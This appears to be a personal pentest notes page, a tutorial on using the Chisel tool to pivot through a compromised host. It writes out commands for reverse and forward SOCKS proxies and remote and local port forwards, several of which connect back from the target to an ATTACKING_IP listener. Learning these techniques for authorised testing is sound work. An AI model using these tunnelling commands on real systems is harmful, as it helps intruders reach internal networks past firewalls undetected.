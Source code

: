 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact it doesn't require SSH access on the compromised target is a big bonus.  

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:

![[Pasted image 20220116095403.png]]

You must have an appropriate copy of the chisel binary on _both the attacking machine and the compromised server._ Copy the file to the remote server with your choice of file transfer method. You could use the webserver method covered in the previous tasks, or to shake things up a bit, you could use SCP:  
```bash - kali
scp -i KEY chisel $USER@$TARGET:/tmp/chisel-USERNAME
```

The chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`

We will be looking at two uses for chisel in this task (a SOCKS proxy, and port forwarding); however, chisel is a very versatile tool which can be used in many ways not described here. You are encouraged to read through the help pages for the tool for this reason.


__**Reverse SOCKS Proxy:**_  
_Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects _back_ from a compromised server to a listener waiting on our attacking machine.  

On our own attacking box we would use a command that looks something like this:  
```bash - kali
./chisel server -p LISTEN_PORT --reverse &  
```

This sets up a listener on your chosen `LISTEN_PORT`.  

On the compromised host, we would use the following command:  
```bash - target
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```  

This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (`&`) to background the processes.

![[Pasted image 20220116095519.png]]

Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.

Note the use of `R:socks` in this command. "R" is prefixed to _remotes_ (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once again, reading the chisel help pages for more information is recommended.  

__**Forward SOCKS Proxy:**_  
_Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.  

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:  
```bash - target
./chisel server -p LISTEN_PORT --socks5
```  

On our own attacking box we would then use:  
```bash - kali
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```  

In this command, `PROXY_PORT` is the port that will be opened for the proxy.

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.  

**Proxychains Reminder:**  
When sending data through either of these proxies, we would need to set the port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from `socks4` to `socks5`:  

```bash - kali
[ProxyList]  
# add proxy here ...  
# meanwhile  
# defaults set to "tor"  
socks5  127.0.0.1 1080  
```

**_Note:_** _The above configuration is for a reverse SOCKS proxy -- as mentioned previously, the proxy opens on port 1080 rather than the specified listening port (1337). If you use proxychains with a forward proxy then the port should be set to whichever port you opened (1337 in the above example)._

Now that we've seen how to use chisel to create a SOCKS proxy, let's take a look at using it to create a port forward with chisel.

_**Remote Port Forward:**_A remote port forward is when we connect back from a compromised target to create the forward.  

For a remote port forward, on our attacking machine we use the exact same command as before:  
```bash - target
./chisel server -p LISTEN_PORT --reverse &
```

Once again this sets up a chisel listener for the compromised host to connect back to.  
The command to connect back is slightly different this time, however:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons. Note the distinction between the `LISTEN_PORT` and the `LOCAL_PORT`. Here the `LISTEN_PORT` is the port that we started the chisel server on, and the `LOCAL_PORT` is the port we wish to open on our own attacking machine to link with the desired target port.  

To use an old example, let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:  
```bash - target
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```  

Connecting back to our attacking machine, functioning as a chisel server started with:  
```bash - target
./chisel server -p 1337 --reverse &
```  

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

__**Local Port Forward:**_  
_As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:  
`./chisel server -p LISTEN_PORT`  

We now connect to this from our attacking machine like so:  
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`  

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:  
```bash - target
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
